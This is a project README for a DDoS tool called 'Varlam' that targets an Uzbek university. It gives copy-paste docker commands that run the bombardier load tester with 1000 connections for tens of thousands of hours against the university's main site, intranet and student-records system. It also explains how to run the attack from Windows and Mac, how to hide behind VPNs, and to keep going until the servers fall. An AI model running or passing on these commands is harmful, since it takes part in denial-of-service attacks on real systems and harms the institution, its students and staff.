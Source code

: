 <p align="center"><img width="300" src="./docs/readme.jpg"/></p>

<h1 align="center">Varlam</h1>

<p align="center">DDoS Gulag for Educational systems. In memory of <a href="https://en.wikipedia.org/wiki/Varlam_Shalamov">Varlam Tikhonovich Shalamov</a></p>

# Target

<p align="center"><img src="./docs/diagram.png"/></p>

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://intranet.wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://srs.wiut.uz`
<br>

# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/kolyma-org/varlam/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till wiut servers' fall

> All endpoints can be found at: https://dnsdumpster.com
